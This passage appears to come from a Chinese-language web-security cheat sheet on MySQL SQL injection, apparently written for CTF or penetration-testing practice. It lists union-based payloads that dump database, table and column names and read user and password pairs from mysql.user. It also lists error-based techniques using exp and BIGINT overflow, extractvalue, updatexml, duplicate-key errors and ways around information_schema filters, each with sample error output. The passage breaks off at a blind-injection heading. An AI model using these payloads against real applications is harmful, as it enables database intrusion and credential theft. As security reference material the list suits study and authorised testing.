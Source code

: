 - Union Based
    - 判断column数
        - `union select 1,2,3...N`
        - `order by N` 找最后一个成功的N
    - `AND 1=2 UNION SELECT 1, 2, password FROM admin--+`
    - `LIMIT N, M` 跳过前N笔，抓M笔
    - 爆资料库名
        - `union select 1,2,schema_name from information_schema.schemata limit 1,1`
    - 爆表名
        - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1`
        - `union select 1,2,table_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - 爆Column名
        - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - MySQL User
        - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
- Error Based
    - 长度限制
        - 错误讯息有长度限制
        - `#define ERRMSGSIZE (512)`
    - Overflow
        - MySQL > 5.5.5 overflow才会有错误讯息
        - `SELECT ~0` => `18446744073709551615`
        - `SELECT ~0 + 1` => ERROR
        - `SELECT exp(709)` => `8.218407461554972e307`
        - `SELECT exp(710)` => ERROR
        - 若查询成功，会返回0
            - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
            - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
        - `select (select(!x-~0)from(select(select user())x)a);`
            - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
            - MySQL > 5.5.53 不会显示查询结果
    - xpath
        - extractvalue (有长度限制，32位)
            - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
        - updatexml (有长度限制，32位)
            - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - 主键重复
        - `select count(*) from test group by concat(version(),floor(rand(0)*2));`
            - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
    - 其它函数 (5.7)
        - `select ST_LatFromGeoHash(version());`
        - `select ST_LongFromGeoHash(version());`
        - `select GTID_SUBSET(version(),1);`
        - `select GTID_SUBTRACT(version(),1);`
        - `select ST_PointFromGeoHash(version(),1);`
    - 爆库名、表名、字段名
        - 当过滤`information_schema`等关键字时，可以用下面方法爆库名
            - `select 1,2,3 from users where 1=abc();`
                - `ERROR 1305 (42000): FUNCTION fl4g.abc does not exist`
        - 爆表名
            - `select 1,2,3 from users where Polygon(id);`
            - ``select 1,2,3 from users where linestring(id);``
                - ```ERROR 1367 (22007): Illegal non geometric '`fl4g`.`users`.`id`' value found during parsing```
        - 爆Column
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b)as c);`
                - `ERROR 1060 (42S21): Duplicate column name 'id'`
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b using(id))as c);`
                - `ERROR 1060 (42S21): Duplicate column name 'username'`
- Blind Based (Time/Boolean)
    - Boolean